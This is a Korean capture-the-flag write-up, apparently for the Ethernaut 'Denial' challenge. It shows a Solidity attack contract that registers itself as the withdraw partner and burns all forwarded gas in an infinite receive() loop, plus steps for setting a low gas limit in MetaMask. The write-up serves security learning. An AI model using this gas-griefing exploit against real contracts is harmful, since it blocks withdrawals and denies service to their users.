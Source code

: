# 공격

이더를 받았을 때 가스를 전부 소모하는 방법으로 무한 반복문을 채택하였다.

```solidity
//SPDX-License-Identifier:MIT
pragma solidity ^0.8.0;

interface IDenial{
    function withdraw() external;
    function setWithdrawPartner(address) external;
}
contract DenialAttack{
    IDenial target;
    constructor(address _target)public{
        target=IDenial(_target);
    }
    function attack() public{
        target.withdraw();
    }
    function state()public{
        target.setWithdrawPartner(address(this));
    }
    receive() external payable{
        while(true){
            }

    }
}
```

state함수를 실행하여 partner를 내가 작성한 공격 컨트랙트의 주소로 설정해주자.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2ef69126-e2a3-40ab-b986-025f7a26e3bd/Untitled.png)

```solidity
await contract.partner()
'0xE0BFB13cB4b533cb0ddbFD80c43A5ec3878Aa4a9'
```

이제 내 공격 컨트랙트가 partner가 되었으므로 withdraw를 실행하면 내 공격 컨트랙트로 이더가 전송되어 recieve()함수가 실행된다. 가스를 전부 소모하게 무한 반복문으로 작성하였으므로 가스가 소모될 것이다. 

attack()을 통해 withdraw()함수를 호출하자. attack()함수를 진행할 때는 메타마스크에서 가스값을 1백만 미만으로 설정해주어야 한다. 안그러면 오류가 뜨지 않도록 적당한 값을 메타마스크에서 전달하기 때문에 테스트 공격에서 transfer가 실행이 되어버린다.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/96c7174a-d0e7-435f-9d2d-5f3187e58cf2/Untitled.png)

추천 사이트 버튼을 누르면 가스를 편집할 수 있다.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/af43dea6-c934-4ccc-9c7f-ae4bdce19d82/Untitled.png)

여기서 고급을 눌러주자
